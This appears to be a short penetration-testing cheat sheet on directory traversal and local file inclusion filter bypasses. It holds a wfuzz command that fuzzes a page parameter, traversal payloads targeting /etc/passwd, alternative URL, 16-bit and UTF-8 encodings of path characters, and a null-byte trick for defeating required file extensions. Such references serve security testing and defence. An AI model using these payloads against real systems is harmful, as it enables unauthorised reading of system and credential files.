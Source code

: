 ```yaml
---
title: "Directory Traversal"
draft: false
images: []
description: "Directory Traversal/LFI filter bypass"
lead: "Directory Traversal/LFI filter bypass"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```

```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```
### Examples:

* ../../../etc/passwd
* ....//....//....//etc/passwd
* .%252f..%252f..%252fetc/passwd
* /var/www/images/../../../etc/passwd
* ./../../etc/passwd%00.png
### Try non-standard encoding:
* . = %2e
* / = %2f
* \ = %5c
### 16-bit:
* . = %u002e
* / = %u2215
* \ = %u2216
### Double URL:
* . = %252e
* / = %252f
* \ = %255c
### UTF-8:
* . = %c0%2e, %e0%40%ae, %c0ae
* / = %c0%af, %e0%80%af, %c0%2f
* \ = %c0%5c, %c0%80%5c

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension.

For example: filename=../../../etc/passwd%00.png